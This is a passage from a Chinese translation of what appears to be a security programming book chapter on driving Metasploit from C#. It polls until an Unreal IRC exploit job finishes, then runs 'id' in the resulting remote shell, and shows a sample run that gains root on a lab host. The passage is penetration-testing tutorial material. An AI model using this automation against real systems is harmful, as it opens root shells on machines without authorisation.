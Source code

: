 列表 11-14：观察直到 Unreal IRC 漏洞利用完成运行

ListJobs() 方法 ➊ 返回当前在 Metasploit 实例上运行的所有任务的字符串列表，模块名称包含在其中。如果列表中包含我们正在运行的模块名称，说明我们的漏洞利用尚未完成，因此我们需要等待一段时间并重新检查，直到我们的模块不再列出。如果 ContainsValue() ➋ 返回 true，表示我们的模块仍在运行，因此我们会暂停并再次调用 ListJobs() ➌，直到漏洞利用模块不再出现在任务列表中，这意味着它已经完成运行。现在我们应该已经有了一个 shell。最后，我们通过传递先前存储的任务 ID，使用 StopJob() ➍ 关闭 multi/handler 漏洞利用模块。

与 Shell 交互

现在我们应该能够与新的 shell 进行交互。为了测试连接，我们运行一个简单的命令来确认我们已经获得了所需的访问权限，如列表 11-15 所示。

> response = manager.➊ListSessions();
> 
> foreach (var pair in response)
> 
> {
> 
> string sessionID = pair.Key.ToString();
> 
> manager.➋WriteToSessionShell(sessionID, "id\n");
> 
> System.Threading.Thread.Sleep(1000);
> 
> response = manager.➌ReadSessionShell(sessionID);
> 
> Console.WriteLine("我们是用户: " + response ["data"]);
> 
> Console.WriteLine("结束会话： " + sessionID);
> 
> manager.➍StopSession(sessionID);
> 
> }
> 
> }
> 
> }
> 
> }

示例 11-15：检索当前会话列表并打印结果

在 ➊，我们调用 ListSessions()，它返回会话 ID 列表以及有关会话的一般信息，如会话类型。在我们遍历每个会话时（除非你多次运行漏洞，否则应该只有一个会话！），我们使用 WriteToSessionShell() 方法 ➋ 将 id 命令写入会话 shell，然后暂停片刻，使用 ReadSessionShell() ➌ 读取响应。最后，我们写出在被控制的系统上运行 id 命令的结果，然后使用 StopSession() ➍ 结束该会话。

打开 Shell

现在我们可以运行自动化程序并打开一些简单的 shell。程序必须使用两个参数运行：一个是要利用的主机，另一个是 Metasploit 用于监听 shell 的 IP 地址，正如示例 11-16 所示。

> $ ./ch11_automating_metasploit.exe 192.168.0.18 192.168.0.2
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 我们是用户：➊uid=0(root) gid=0(root)
> 
> 结束会话：3
> 
> $
